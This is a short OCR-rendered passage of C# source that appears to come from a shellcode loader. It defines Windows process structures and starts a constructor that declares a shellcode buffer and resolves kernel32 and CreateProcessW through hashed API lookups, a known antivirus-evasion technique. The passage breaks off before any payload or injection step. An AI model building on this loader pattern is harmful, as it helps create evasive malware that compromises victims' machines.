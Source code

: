 ```

public IntPtr lpTitle;

public int dwX;

public int dwY;

public int dwXSize;

public int dwYSize;

public int dwXCountChars;

public int dwYCountChars;

public int dwFillAttribute;

public int dwFlags;

public short wShowWindow;

public short cbReserved2;

public IntPtr lpReserved2;

public IntPtr hStdInput;

public IntPtr hStdOutput;

public IntPtr hStdError;

}

[StructLayout(LayoutKind.Sequential)]

public struct PROCESS_INFORMATION

{

public IntPtr hProcess;

public IntPtr hThread;

public int dwProcessId;

public int dwThreadId;

}

public Program()

{

byte[] shellcode;

// hashes n shit

uint checksum = 0xdeadc0de;

var hk32 = Generic.GetLoadedModuleAddress("2F9A6973C69A1D8B3A51AB6A6D918AA8", checksum);

var hCreateProcessW = Generic.GetExportAddress(hk32, "3D00AEB506FFD6D851CC51760FA39FD4", checksum);

```